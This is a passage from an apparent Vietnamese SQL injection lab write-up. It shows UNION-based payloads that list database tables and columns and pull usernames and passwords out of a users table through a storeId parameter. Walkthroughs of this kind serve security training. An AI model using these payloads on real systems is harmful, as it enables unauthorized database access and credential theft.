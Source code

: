 P/S: Thử payload ở productId sẽ không trả về kết quả do chỉ display giá trị ở storedId. 

Ta có thể sử dụng payload sau để list table trong database
`1 UNION SELECT table_name FROM information_schema.tables`
![image](https://hackmd.io/_uploads/Bkut4JD3T.png)
Nhưng đề đã cho tên bảng rồi thì chỉ cần xác định cột trong bảng users với payload `1 UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'`

![image](https://hackmd.io/_uploads/r1qnVyD3p.png)

Do UNION chỉ có 1 cột nhưng ta cần retrieve 2 cột của bảng này nên mình sẽ sử dụng payload `1 UNION SELECT username || ':' || password FROM users` như trong 1 bài lab trước (Lab 10)

![image](https://hackmd.io/_uploads/BJXLS1wn6.png)


